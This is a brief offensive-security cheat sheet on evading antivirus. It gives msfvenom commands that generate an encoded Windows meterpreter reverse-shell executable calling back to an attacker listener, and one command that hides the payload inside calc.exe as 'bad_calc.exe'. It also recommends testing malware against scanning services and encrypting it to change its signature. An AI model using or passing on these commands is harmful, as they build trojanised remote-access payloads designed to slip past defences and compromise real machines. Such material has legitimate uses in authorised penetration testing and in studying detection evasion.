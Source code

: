 # Bypassing Antivirus

## How to Find which AV Detects Malware

* find out which AV the target uses.
* upload malware to [virtustotal.com](http://virtustotal.com/) and see if the specific AV finds it

## Encoding

* can be done with msfvenom and metasploit
* notice how we set the -e flag here, and then use the shikata\_ga\_nai encoding
* not that effective since antivirus-vendors have access too

### Example

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -o meterpreter_encoded.exe
```

## Embed in Non-Malicious File

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -x calc.exe -o bad_calc.exe
```

## Encrypting the malware

* encrypt the malware and radically change the signature
* Hyperion is a great tool for malware encryption

